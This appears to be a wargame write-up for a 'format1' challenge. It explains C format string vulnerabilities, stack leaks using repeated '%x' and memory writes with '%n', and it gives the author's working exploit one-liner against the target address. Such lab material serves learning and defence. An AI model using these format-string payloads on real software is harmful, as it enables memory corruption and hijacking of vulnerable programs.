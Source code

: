 # Format1

## Understanding Format String Identifiers
If a programmer uses <b>printf(string)</b> rather than <b>printf("%s\n",string)</b> then they are exposed to a format string vulnerability. When printf function is called, the arguments are pushed onto the stack in reverse order. Thus if you call printf with something like:<br>
```C
printf("A is %d and is at %08x. B is %x.\n", A, &A, B); 
```

The stack may look like:
```
============================
= Address of format string =
============================
= Value of A               =
============================
= Address of A             =
============================
= Value of B               =
============================
= Bottom of the stack      =
============================
```
But what if only two arguments are pushed onto the stack? The program begins reading values off the stack where it expects the parameter to be. 

## Format String Vulnerability
We can leak stack address/information off the stack using:<br>
```Python
python -c 'print "%x." * 100'
```
Leak far enough and we will see the string itself on the stack. This is because the format function will always be on the highest stack frame. I can also use %s to look for any human readable strings on the stack.

## Writing to Arbitrary Memory Addresses
We can actually write to locations in memory using the %n string identifier. %n will write to a variable however many bytes have been written thus far. So...<br>

```C
int main() {
	int val;
	printf("blah %n blah\n",&val);
	printf("%d\n",val);
	return 0;
}
```
Will make val be equal to 5. 
Thus, all we have to do is put a memory address that we want to write to onto the stack, read up to that memory address, and use %n to write to it.

## Challenge
I solved this problem with this payload:<br>
```bash
./format1 `python -c "print 'AAAA' + '\x38\x96\x04\x08' + 'BBBBB'  + '%x.'*125 + '%n.'"`
```
Some tips and tricks:
1. Keep the 'AAAA', 'BBBB' around the address you are trying to write to. If what your reading is off by 1 or 2 bytes, you can always add/subtract from these paddings
2. Keep the %x that will read the memory address on the stack sepearte from the multiplying '%x.'. This way, once you have it lined up, you can just turn that '%x.' into a '%n.'

Target is at 0x08049638

